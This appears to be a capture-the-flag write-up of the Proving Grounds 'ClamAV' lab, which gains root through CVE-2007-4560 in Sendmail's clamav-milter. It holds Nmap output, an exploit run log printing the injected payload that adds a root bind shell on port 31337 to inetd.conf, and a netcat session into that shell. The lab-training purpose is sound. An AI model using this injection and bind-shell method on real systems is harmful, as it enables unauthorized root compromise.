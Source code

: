 ```yaml
---
title: Offensive-Security–Proving-Grounds–ClamAV-Write-up
published: true
ayout: post
date: 2024-10-27 18:54 +0600
categories: [OSCP]
tags: [ctf,oscp] 
---
```


# Machine Type: Linux

## Attack Walkthrough 


### Step 1: Service Enumeration with Nmap

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 07:21 EDT
Warning: 192.168.248.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.248.42
Host is up (0.10s latency).
Not shown: 65347 closed tcp ports (conn-refused), 181 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.45.192], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
|_http-title: Ph33r
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
|_  1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-10-27T11:22:30-04:00
|_clock-skew: mean: 5h59m59s, deviation: 2h49m43s, median: 3h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.02 seconds

```


**Run Nmap Scan**: 
Use Nmap to discover open services on the target. The following services are detected: - **SSH** - **HTTP** - **SMTP** - **SMB** ```


**No Accessible SMB Shares**: After checking for accessible shares, none were found on the SMB service.

### Step 2: Exploit Research for SMTP Service

1. **Research SMTP Version for Exploits**: After identifying the SMTP server version, a quick search online revealed the following exploit:
    
    - **Exploit**: Sendmail with clamav-milter < 0.91.2 - Remote Command Execution
    - **CVE**: CVE-2007-4560
    
    This exploit affects the version running on the target and is capable of remote command execution.
    
2. **Interesting Detail**: Notably, the machine's hostname is **clamav**, aligning with the exploit details. The exploit opens a new port (31337) on the target for a root shell (`/bin/sh`).


### Step 3: Executing the Exploit

1. **Run the Exploit**: Execute the exploit to open port 31337, providing access to a root shell on the target.


```
perl 4761.pl $target                                                                                                                                                                   ✔  1072  07:29:00 
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.248.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sun, 27 Oct 2024 19:38:00 -0400; (No UCE/UBE) logging access from: [192.168.251.248](FAIL)-[192.168.251.248]
250-localhost.localdomain Hello [192.168.251.248], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 49RNc0PA004595 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```


**Connect to Root Shell**: Once confirmed, connect to port 31337 to access the root shell.

```
c -nv  $target 31337                                                                                                                                                    1 ↵  1080  15:33:58 
(UNKNOWN) [192.168.248.42] 31337 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd root
ls
dbootstrap_settings
install-report.template
proof.txt
cat proof.txt
xxxxxxxxxxxxxxxxxxxx

```

### Conclusion

By leveraging the CVE-2007-4560 exploit, a root shell was successfully established on the target system.